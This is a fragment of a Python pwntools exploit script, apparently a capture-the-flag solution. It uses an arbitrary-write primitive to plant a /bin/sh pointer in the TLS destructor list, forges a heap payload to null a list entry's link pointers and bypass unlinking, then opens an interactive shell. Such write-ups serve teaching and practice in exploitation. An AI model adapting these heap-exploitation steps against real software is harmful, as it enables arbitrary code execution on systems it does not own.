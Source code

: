 ```python
    aarb_write(tls_dtors_list_addr + 72, p64(binsh), 8)

    log.info("Bypass clean_proc and unlink of entry_t")

    # Nullify entry_t->pNext and entry_t->pPrev
    payload = b"W"*0x11b
    payload += p64(0x0)
    payload += p64(0x31)
    payload += p64(0x0)
    payload += p64(0x0)
    payload += p64(0x0)
    payload += p64(0x0)

    edit_add_entry(b"team", payload)
    edit_del_entry(b"team")
    
    p.sendlineafter(b"> ", b"4")
    p.sendlineafter(b"> ", b"3")

    log.info("Profit :)")

    p.interactive()

```
